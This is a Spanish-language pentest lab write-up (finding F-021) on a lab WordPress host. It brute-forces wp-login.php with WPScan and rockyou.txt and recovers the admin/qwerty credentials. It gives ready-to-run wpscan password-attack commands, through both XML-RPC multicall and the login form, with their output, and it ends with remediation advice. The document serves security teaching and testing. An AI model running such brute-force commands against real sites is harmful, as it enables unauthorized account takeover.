


# 🔓 F-021 — Credenciales débiles (`admin`/`qwerty`) vía fuerza bruta en wp-login.php

   

> [!IMPORTANT]
> `wp-login.php` no tiene ningún límite real de intentos. Combinando el diccionario de 29 usuarios ya enumerado ([F-019](F-019-enumeracion-usuarios-wordpress.md)) con `rockyou.txt`, la cuenta `admin` cayó en segundos con la contraseña `qwerty`.

## 📖 Contexto

WordPress no implementa rate-limiting de login de serie — solo vía plugin. Con un diccionario de usuarios reales ya confirmado (incluida `admin`), el siguiente paso natural es probar fuerza bruta de contraseñas.

## 🔬 Explotación paso a paso

**Primer intento — amplificación vía XML-RPC (falló por un bug de WPScan):**

```bash
wpscan --url http://bigshop.local \
  --usernames admin \
  --passwords /usr/share/wordlists/rockyou.txt \
  --password-attack xmlrpc-multicall \
  --max-threads 50
```

> [!NOTE]
> WPScan 4.1.0 **crashea** con `xmlrpc-multicall` contra `rockyou.txt`: algunas líneas del diccionario no son UTF-8 válido y rompen el serializador de peticiones XML-RPC en Ruby (`xmlrpc/create.rb`). Es un bug conocido de esa combinación específica, no del entorno del laboratorio.

**Segundo intento — formulario clásico, sin amplificación pero estable:**

```bash
wpscan --url http://bigshop.local \
  --usernames admin \
  --passwords /usr/share/wordlists/rockyou.txt \
  --password-attack wp-login \
  --max-threads 30
```

```
[SUCCESS] - admin / qwerty

[!] Valid Combinations Found:
 | Username: admin, Password: qwerty
```



`qwerty` está muy arriba en `rockyou.txt` — cayó casi de inmediato.

**Acceso confirmado al panel:**



## 💥 Impacto

> [!CAUTION]
> Compromiso administrativo total sin phishing ni ingeniería social — solo un diccionario de contraseñas comunes contra una cuenta ya identificada por enumeración. Es el punto de entrada de toda la cadena de compromiso posterior del servidor (ver [F-025](F-025-cadena-completa-wordpress.md)).

## 🛡️ Remediación

- Política de contraseñas robusta forzada, especialmente para cuentas con rol administrativo.
- Rate-limiting/bloqueo real de intentos (plugin dedicado tipo Limit Login Attempts, o WAF) — WordPress no lo trae de serie.
- Considerar MFA para cuentas administrativas.
- Deshabilitar `xmlrpc.php` si no se usa, reduciendo superficie de ataque adicional (aunque en este caso no fue la vía que funcionó).

## Hallazgos relacionados

- [F-019](F-019-enumeracion-usuarios-wordpress.md) — el diccionario de usuarios que hizo posible dirigir la fuerza bruta.
- [F-022](F-022-rce-theme-file-editor.md) — qué se hizo con el acceso admin obtenido aquí.
- [F-025](F-025-cadena-completa-wordpress.md) — la cadena completa de compromiso, de la que este es el primer eslabón.

---

⬅ [Volver al índice de writeups](README.md) · [README principal](../README.md) · [Informe técnico (PDF)](../docs/informe-BigShop.pdf)
